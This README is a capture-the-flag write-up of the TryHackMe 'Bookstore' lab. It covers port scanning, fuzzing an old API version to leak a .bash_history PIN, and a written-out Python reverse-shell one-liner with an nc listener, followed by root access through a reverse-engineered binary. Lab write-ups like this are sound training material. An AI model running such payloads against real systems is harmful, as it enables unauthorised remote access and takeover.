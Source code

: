 # BookStore
This is a CTF write-up part of the TryHackMe box called the bookstore

The first thing to do when enumerating a target is to look at what's open for access so I decided to do a Nmap scan on the target IP address

![image](https://github.com/achrafelkhatib/BookStore/assets/61394291/300d8374-5dd3-4888-8ffc-c40290430d6a)

I've found that port 80 which indicates a web page, and port 5000 is open so I decided to check it

![image](https://github.com/achrafelkhatib/BookStore/assets/61394291/b26051f7-ab73-477b-a695-881e1e40ad16)

I found that they are using a Foxy REST API v2.0 which would indicate an outdated version

When checking the source code for the login page I also found this in the source code
![image](https://github.com/achrafelkhatib/BookStore/assets/61394291/7d429ec1-7e19-4f9c-afbe-d681de0b2c0f)

This was an indicator that there's a file called bash_history which would include a pin that might be viable down the line

After that, I enumerated the web address with port 5000 to find anything that might be of use and found the following
![image](https://github.com/achrafelkhatib/BookStore/assets/61394291/4ee94a74-d31c-4d8e-a326-98d9f22c18f7)

The robots.txt file didn't have anything interesting, just a prevention so web crawlers won't be able to find the /api 
whoever I was able to find a /console that took me to a page that asked for a PIN, the PIN mentioned earlier could be used for it
within the /api I was able to find the following
![image](https://github.com/achrafelkhatib/BookStore/assets/61394291/a107652a-af37-437a-a828-8d209bd0cfdb)

So I decided to use the old version of the API and see if I could find any left-behind files that could be of use
I used wfuzz to look for where the bash_history file might be at

```shell wfuzz https://IP:5000/api/v1/resources/books?FUZZ=.bash_history --hc 404 -w /usr/share/wordlist/dirbs/common.txt```

and got the following results

![image](https://github.com/achrafelkhatib/BookStore/assets/61394291/c2b0a714-836c-4c06-a7a1-484c78bb15aa)

the only payload that returned a JSON file was "show" which returned the following

![image](https://github.com/achrafelkhatib/BookStore/assets/61394291/0ffa5c0f-b0b2-4bdc-998a-9b3bb953684f)

now that we got the PIN, let's use it to access the console

![image](https://github.com/achrafelkhatib/BookStore/assets/61394291/4b9009a3-6351-42f3-96f8-9b205d78eb1f)

looks like we have a Python interactive console, so let's use a Python payload to initiate a reverse shell

```python
import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",port));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")
```

used this cheatsheet https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master

before importing the payload into the console I opened a netcat on port 1234 
```shell
nc -lvnp 1234
```

after which I was able to login into the shell and found the user.txt file which was the first flag
![edited usertxt](https://github.com/achrafelkhatib/BookStore/assets/61394291/2a553a2d-c99a-454d-bbf7-77632a0858a9)

now for privilege escalation, i first looked at what files are in sid's directory and found the following
![image](https://github.com/achrafelkhatib/BookStore/assets/61394291/dd2ad76e-cc3f-441c-a5a1-b04f4bad935d)

the try-harder file can be executed as indicated by the x and it's owned by the root user within the group sid, which means we can run as sid as well and might be our 
gateway into being a root, however upon running it, it was asking for a magic number, so I decided to reverse engineer the binary file in order to see its contents and found
the following

![image](https://github.com/achrafelkhatib/BookStore/assets/61394291/e85ab127-fbd4-4187-bf28-ebe355c633bc)

now we have the code and the magic number however we need to do some calculations in order to find the full number, so in Python I did the following

![image](https://github.com/achrafelkhatib/BookStore/assets/61394291/7e10926b-7ed3-4def-8b58-21ae79cb86fa)

now that we have the magic number let's try running the script again and see what happens

![image](https://github.com/achrafelkhatib/BookStore/assets/61394291/f39037a4-2750-42f1-96fb-e2d568dcb232)

looks like now we are root, so on the hunt for the root.txt file which was found in the root directory under /root/root.txt 

![image](https://github.com/achrafelkhatib/BookStore/assets/61394291/cda7dd45-1872-4613-96cf-c13b7b10404b)

now all we got to do is cat the file for the hex flag.
